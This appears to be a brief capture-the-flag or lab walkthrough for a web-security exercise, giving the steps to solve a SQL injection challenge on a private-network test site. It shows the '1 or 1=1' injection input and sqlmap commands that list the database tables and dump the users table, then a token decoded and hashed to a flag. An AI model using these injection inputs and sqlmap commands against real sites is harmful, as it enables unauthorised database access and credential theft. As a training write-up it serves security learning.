 python route
1. go to the members tab.
2. type in the search bar "1 or 1=1"
3. sqlmap.py --url="http://192.168.1.117/?page=member&id=1+or+1+%3D+1&Submit=Submit#" --tables
4. sqlmap.py --url="http://192.168.1.117/?page=member&id=1+or+1+%3D+1&Submit=Submit#" --dump -T users
5. decrypt the token which gives you "FortyTwo"
6. then sha256 encrypt "Sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5"